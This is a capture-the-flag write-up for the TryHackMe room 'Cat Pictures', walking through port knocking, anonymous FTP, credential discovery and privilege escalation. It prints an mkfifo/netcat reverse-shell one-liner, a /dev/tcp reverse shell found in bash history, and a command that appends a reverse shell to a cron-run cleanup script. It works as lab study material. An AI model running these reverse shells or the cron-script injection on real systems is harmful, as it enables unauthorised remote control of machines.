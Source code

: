 ```yaml
---
title: "Cat Pictures TryHackMe"
date: "07-14-2021"
author: "Reda BELHAJ"
summary: "This is a Writeup to a room in TryHackMe called Cat Pictures Created by gamercat and has this description: I made a forum where you can post cute cat pictures!"
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Cat/Cat.jpg"
---
```


## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap -sV -p- 10.10.229.237

PORT STATE SERVICE REASON VERSION  
22/tcp open ssh syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
4420/tcp open nvm-express? syn-ack  
8080/tcp open http syn-ack Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
```



There is a web server available on port 8080 where we will find a forum page powered by [phpBB](https://www.phpbb.com/) : and it's an Internet forum package in the PHP scripting language. The name "phpBB" is an abbreviation of PHP Bulletin Board.

And by looking around in the forum I see the last post that have some clues about the next step `knock`👊.

![Post Image](/images/Cat/post.jpg)

### Port Knocking
**port knocking** is a method of externally opening [ports](https://en.wikipedia.org/wiki/TCP_and_UDP_port) on a [firewall](https://en.wikipedia.org/wiki/Firewall_(networking) "Firewall (networking)") by generating a connection attempt on a set of prespecified closed ports. 
The port 21 will only be open when you request 1111, 2222, 3333, 4444 in sequence.

![Knock Image](/images/Cat/knock.jpg)

```
knock 10.10.229.237 1111 2222 3333 4444
```

After many knocking commands I run the nmap command and I get a new open port.

![Scan2 Image](/images/Cat/scan2.jpg)

So I connected with anonymous in ftp and i found a `note.txt`:

![Ftp image](/images/Cat/ftp.jpg)

```
cat note.txt  
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.Connect to port 4420, the password is sa*********.  
- ca*****r
```

So the `note.txt` gives us the credentials for port 4420 and We gonna try to connect to the port using netcat. when I connected to the port i try a rm reverse shell on my 4444 port.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.174.180 4444 >/tmp/f
```

So I browse for a little bit and I found an executable in the home directory when I run it, It demand us a password so I decided to output the binary using cat command :

```
cat runme
```

And I found the password. When entering the correct password in the binary it generates a SSH key.

```
chmod 600 id_rsa
ssh catlover@10.10.61.235 -i id_rsa 
```

## User Flag

By browsing dome of the directories I found the user flag in the /root :

```
7cf90a0e7c5d****************************
```

## Root Flag

So first I output the .bash_history file and I found it not empty :

```
...
cat /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
cat /var/log/dpkg.log 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
exit
```

```
cat /opt/clean/clean.sh   
#!/bin/bash

rm -rf /tmp/*
```

So the clean shell cleans and remove all the temporary files on the system, So lets try to add a reverse shell on the clean.sh file.

```
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.8.174.180/4444 0>&1'" >> clean.sh
```

After 1 to 2 minutes I finally got the shell and the root flag:

```
cat root.txt
Here is your flag:

4a98e43d78bab2**************************
```